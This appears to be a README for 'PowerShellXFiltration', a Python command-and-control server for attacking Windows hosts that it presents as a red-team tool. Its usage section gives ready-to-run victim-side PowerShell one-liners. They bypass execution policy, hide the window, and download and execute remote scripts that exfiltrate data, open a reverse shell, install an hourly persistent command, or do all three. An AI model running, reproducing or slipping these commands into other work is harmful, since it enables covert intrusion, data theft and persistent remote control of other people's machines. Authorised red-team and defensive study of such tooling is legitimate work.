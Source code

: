 ## PowerShellXFiltration
A Python web server to execute several actions on a Windows system, acting like a C2.
Useful for redteam.

### Example
1. Change the settings in `config.py`.
2. Run:
```
ATTACKER> python3 server.py

#For data exfiltration
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_exf');"

#For reverse-shell
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_rvs');"

#For running a persistent command (by default runs every hour for 6 days, but can be changed in `client_pers.ps1`)
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client_pers');"

#For running data exfiltration + reverse-shell
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/run_all');"
```
